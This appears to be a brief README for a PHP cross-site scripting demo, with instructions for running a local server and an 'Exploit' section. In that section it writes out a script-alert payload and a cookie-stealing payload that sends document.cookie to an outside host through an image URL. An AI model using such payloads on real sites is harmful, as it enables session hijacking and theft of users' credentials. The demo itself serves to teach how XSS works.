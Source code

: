 # Quick demo
- Just an example of XSS with php

## Run
- Run with `php -S localhost:8000`
- `tail -f /var/log/httpd/access_log`

## PHP
- PHP is a server side scripting language.
- That means that it runs code you can't see before sending you back a resopnse
- This is called a backend or server and this is how *modern* websites work.

## Exploit
- Tags into forms for forums, email signature, etc...
```html
I'm <strong>STRONG</strong>!
```
- If you can put in tags, that means you can put in `<script>` tags...

- Either of the forms with
```html
<script>alert('doot')</script>
<script>document.write('<img src="http://website.com/?cookie=' + document.cookie + '" />')</script>
```
